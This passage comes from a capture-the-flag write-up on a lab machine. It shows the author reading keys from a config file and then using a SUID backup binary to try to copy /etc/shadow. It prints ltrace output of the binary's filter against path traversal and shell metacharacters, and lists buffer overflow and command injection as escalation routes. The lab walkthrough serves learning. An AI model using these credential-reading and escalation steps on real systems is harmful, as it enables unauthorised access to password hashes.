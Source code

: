 We can read these keys on the machine:

```
mark@node:/home/tom$ cat /etc/myplace/keys
a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110
```

I can try each token, and find that one works as there's a different error:

```
$ ./backup_binary -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d47 a a
[!] Could not open file
```

The last argument would have to be the file we want to 'backup'.&#x20;

So there's 3 methods of exploiting this so far:

* Either BOF and get a root shell
* Reading root flag and `/etc/shadow` and (hopefully) find a password.
* Possibly command injection

### Shadow Fail

I chose the second becuase it's easier. In this case, I chose to backup the `/etc/shadow` file by doing this, and found that it didn't work.

```
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d47 /etc/shadow > backup.shadow
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

I took a look at the `ltrace` output again and found out why it woudln't work. It seems that some directories are blacklisted when I tried to backup the user's directory:

```
strstr("/home/tom", "..")                        = nil                                       
strstr("/home/tom", "/root")                     = nil                                       
strchr("/home/tom", ';')                         = nil                                       
strchr("/home/tom", '&')                         = nil                                       
strchr("/home/tom", '`')                         = nil                                       
strchr("/home/tom", '$')                         = nil                                       
strchr("/home/tom", '|')                         = nil                                       
strstr("/home/tom", "//")                        = nil                                       
strcmp("/home/tom", "/")                         = 1                                         
strstr("/home/tom", "/etc")                      = nil                                       
strcpy(0xffcfcd7b, "/home/tom")                  = 0xffcfcd7b
```
